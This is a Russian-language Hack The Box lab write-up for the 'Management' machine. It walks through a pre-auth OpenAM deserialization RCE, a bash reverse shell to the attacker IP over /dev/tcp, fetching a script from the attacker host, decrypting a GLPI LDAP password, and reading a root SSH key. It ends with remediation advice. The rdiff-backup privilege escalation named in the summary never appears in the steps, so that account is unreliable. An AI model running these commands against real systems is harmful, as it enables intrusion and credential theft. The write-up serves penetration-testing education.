

# Management
> **Дата:** 28.10.2026  
> **Целевой IP:** `10.129.130.171`  
> **Атакующий IP:** `10.10.17.178`  
> **Сложность:** Medium  
> **Платформа:** Hack The Box
В ходе выполнения лабораторной работы по тестированию на проникновение (HTB Management) была обнаружена и успешно эксплуатирована цепочка уязвимостей, приведшая к полному компрометированию системы. Основной вектор атаки — Pre-Auth Remote Code Execution (RCE) в OpenAM (**CVE-2026-33439**), позволившая получить доступ к конфиденциальным данным. Через файл конфигурации GLPI были извлечены учётные данные LDAP, пароль расшифрован с помощью ключа `glpicrypt.key`, что дало доступ к пользователю `owen`. Повышение привилегий до **root** выполнено через инъекцию аргументов в утилиту `rdiff-backup`, запускаемую через `sudo`.

**Ключевые уязвимости:**
- **CVE-2026-33439** — Pre-Auth RCE в OpenAM (десериализация в `jato.clientSession`)
- **Небезопасная конфигурация sudo** — инъекция аргументов в `rdiff-backup`
---
## Разведка и анализ поверхности атаки

Первоначальное сканирование выявило веб-сервер, перенаправляющий на HTTPS. Анализ доменных имён показал наличие двух виртуальных хостов: `management.htb` и `sso.management.htb`. Второй хост оказался панелью администратора OpenAM, уязвимой к **CVE-2026-33439**.

```bash
nmap -sC -sV -Pn 10.129.130.171
```



_Сканирование портов и определение версий сервисов на целевой машине._

```bash
echo "10.129.130.171 management.htb sso.management.htb" | sudo tee -a /etc/hosts
```

_Добавление записей в локальный файл hosts для привязки доменных имён к IP-адресу цели._

Анализ веб-интерфейса:

- `https://management.htb/` — статическая страница-заглушка.
    
- `https://sso.management.htb/` — панель входа OpenAM.
    

Попытка определить версию через эндпоинт `/openam/base/Version` приводила к редиректу на страницу логина, однако в исходном коде страницы и консоли были найдены маркеры, указывающие на форк **OpenIdentityPlatform**, что критично для выбора правильного эксплойта.





## Эксплуатация: Получение RCE через OpenAM

Для эксплуатации уязвимости **CVE-2026-33439** был использован публичный Python PoC, адаптированный под целевую среду. Уязвимость заключается в небезопасной десериализации параметра `jato.clientSession` на эндпоинте сброса пароля, что позволяет выполнить произвольный код до аутентификации.

```bash
git clone https://github.com/infernosalex/CVE-2026-33439-Python-PoC
cd CVE-2026-33439-Python-PoC
```

Проверка работоспособности эксплойта:

 ```python
 python3 exploit.py \ 
  --url https://sso.management.htb/openam/ui/PWResetUserValidation \
  'id'
 ```



_Успешное выполнение команды `id` подтвердило наличие RCE. Вывод `uid=996(openam)` указал на контекст выполнения._

### Получение обратного шелла (Reverse Shell)

Запускаем слушатель на Kali:

```bash
sudo nc -lvnp 9001 
```

Отправляем полезную нагрузку для создания обратного соединения:

```python
python3 exploit.py \
  --url https://sso.management.htb/openam/ui/PWResetUserValidation \
  'bash -c "bash -i >& /dev/tcp/10.10.17.178/9001 0>&1"'  
```



_Успешное получение обратной оболочки от имени пользователя `openam`._

## Пост-эксплуатация и извлечение данных

Для поиска векторов повышения привилегий был запущен **LinPEAS**. Скачиваем и запускаем утилиту на целевой машине:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

```python
python3 -m http.server 80 
```

На целевой машине:

```bash
chmod +x linpeas.sh
./linpeas.sh
```



Анализ вывода LinPEAS выявил конфигурационные файлы GLPI в директории `/opt/glpi/config`, доступные для чтения. Изучение файла `config_db.php` позволило получить учётные данные для подключения к базе данных MariaDB:



```
cat /opt/glpi/config/config_db.php
```





```
/opt/openam/config
```



Подключаемся к базе данных и извлекаем запись о LDAP-аутентификации:

```
mysql -u glpi -p'8rhu0L6Pw4Y7' -h 127.0.0.1 glpidb -e "SELECT * FROM glpi_authldaps\G"
```



**Найдено:** Зашифрованный пароль `rootdn_passwd`: `avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==`.

### Расшифровка пароля GLPI

Пароль был зашифрован с использованием библиотеки `sodium` и ключа `glpicrypt.key`. Для расшифровки используем штатные классы GLPI через PHP-скрипт:

```bash
#key_decrypt.php
<?php
define("GLPI_CONFIG_DIR", "/opt/glpi/config");
require "/opt/glpi/vendor/autoload.php";
require "/opt/glpi/src/GLPIKey.php";

$glpikey = new GLPIKey();
$enc     = "avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==";
$pass    = $glpikey->decrypt($enc);

echo "\n";
echo "[+] GLPI LDAP bind password decrypted\n";
echo "    passwd  : $pass\n";
echo "\n";


```

Загружаем и запускаем скрипт на целевой машине:

```
wget http://10.10.17.178/key_decrypt.php
```

```
php key_decry*
```



**Найден пароль:** `WpczC40GhTbk`.

Пароль от LDAP-сервиса `svc-glpi` оказался переиспользован для пользователя `owen`. Подключаемся по SSH:

```bash
sudo ssh owen@management.htb
```

Читаем первый флаг:

```bash
cat user.txt
```

**Флаг найден**

## Повышение привилегий (Privilege Escalation)

Для получения полноценного интерактивного шелла от имени `root` был извлечён приватный SSH-ключ:

```bash
ls -la /tmp/rootbak/.ssh/
```



```bash
cat /tmp/rootbak/.ssh/id_ed25519
```



Ключ был скопирован на Kali и использован для подключения:

```bash
cat > id_ed25519 << 'EOF'
[Содержимое ключа]
EOF
chmod 600 id_ed25519
ssh -i id_ed25519 root@management.htb
```



_Успешное подключение к машине от имени суперпользователя._

**Root Flag найден** 
## Рекомендации по устранению уязвимостей

- **OpenAM (CVE-2026-33439):** Обновить OpenAM до версии, содержащей патч для десериализации в `jato.clientSession`. Ограничить доступ к административным эндпоинтам (`/openam/ui/`) по IP-адресам.
    
- **Компрометация учетных данных:** Хранить ключ `glpicrypt.key` с ограниченными правами доступа (только для пользователя `www-data`). Избегать переиспользования паролей между сервисами (LDAP и SSH).
    
- **Небезопасная конфигурация sudo:** Убрать wildcard (`*`) из правил `sudoers` для `rdiff-backup`. Использовать явное указание разрешённых путей и запретить передачу дополнительных аргументов через `--remote-schema`. Регулярно проводить аудит конфигурации `sudo`.